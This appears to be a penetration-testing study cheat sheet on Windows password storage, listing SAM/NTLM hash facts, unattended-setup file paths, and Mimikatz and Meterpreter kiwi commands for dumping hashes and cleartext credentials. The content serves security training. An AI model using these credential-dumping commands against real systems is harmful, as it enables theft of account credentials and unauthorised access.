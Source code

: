 # Windows Passwords

* [Hashes](#hashes)
* [Windows Configuration Files](#windows-configuration-files)
* [Mimikatz](#mimikatz)
* [Metasploit / Meterpreter](#metasploit--meterpreter)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Hashes

* Stored in Security Accounts Manager (SAM) database.
* Authentication and verification is facilitated by the Local Security Authority (LSA).
   * Elevated/Administrative Privileges are required to interact with LSASS process.

* Two types of hashes:
   * LM (LanMan)
      * LM is disabled from Windows Vista onwards.
   * NTLM (NTHash)
      * Modern Windows use NTLM.
      * No password salts
      * Uses MD4 Algorithm

**************************************

## Windows Configuration Files

### Unattended Windows Setup

* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Autounattend.xml
* Config files may be base64 encoded

**************************************

## Mimikatz

* Requires admin privileges to run correctly.

```
mimikatz.exe
```

Check Privileges (Need: Privilege '20' OK):
```
privilege::debug
```

Dump SAM database / hashes for all users:
```
lsadump::sam
```

Possibly dump clear text creds:
```
lsadump::secrets
```
```
sekurlsa::logonpasswords
```


## Metasploit / Meterpreter

```
load kiwi
```
Help menu:
```
?
```
Retrieve all credentials (parsed):
```
creds_all
```
Dump hashes for all users:
```
lsa_dump_sam
```
Possibly dump clear text creds:
```
lsa_dump_secrets
```

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
